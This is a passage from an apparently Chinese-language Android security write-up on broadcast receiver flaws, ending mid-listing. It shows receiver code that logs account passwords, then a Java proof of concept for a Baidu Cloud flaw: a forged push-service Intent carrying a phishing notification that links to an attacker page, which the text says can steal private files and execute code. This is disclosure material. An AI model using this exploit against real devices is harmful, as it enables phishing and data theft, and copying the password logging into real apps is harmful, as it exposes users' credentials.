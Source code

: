 ``` java
	    do
	    {
	        name = paramIntent.getExtras().getString(ACCOUNT_NAME);
	        password = paramIntent.getExtras().getString(ACCOUNT_PWD);
	        type = paramIntent.getExtras().getString(ACCOUNT_TYPE);
	    }
	    while ((TextUtils.isEmpty(name)) || (TextUtils.isEmpty(password)) || (TextUtils.isEmpty(type)) || ((!type.equals("email")) && (!type.equals("cellphone"))));
	    Log.i("name", name);
	    Log.i("password", password);
	    Log.i("type", type);
	 }
	
	public void onReceive(Context paramContext, Intent paramIntent)
	{
	  if (TextUtils.equals(paramIntent.getAction(), "account"))
	  doLog(paramContext, paramIntent);
	 }

}
```
## 0x04 案例
### 案例1：伪造消息代码执行
百度云盘有一个广播接收器没有对消息进行安全验证，通过发送恶意的消息，攻击者可以在用户手机通知栏上推送任意消息，点击消息后可以利用webview组件盗取本地隐私文件和执行任意代码。
``` java
Intent i = new Intent();

i.setAction("com.baidu.android.pushservice.action.MESSAGE");

Bundle b = new Bundle();

try
{

	JSONObject jsobject = new JSONObject();
	
	//1. phishing
	
	JSONObject custom_content_js = new JSONObject();
	
	jsobject.put("title", "a big surprise!!!");
	
	jsobject.put("description", "");
	
	//jsobject.put("url", "http://bcscdn.baidu.com/netdisk/BaiduYun_5.1.0.apk");
	
	jsobject.put("url", "http://drops.wooyun.org/webview.html");
	
	
	
	JSONObject customcontent_js = new JSONObject();
	
	customcontent_js.put("type", "1");
	
	customcontent_js.put("msg_type", "resources_push");
	
	customcontent_js.put("uk", "1");
	
	customcontent_js.put("shareId", "1");
	
	jsobject.put("custom_content", customcontent_js);
```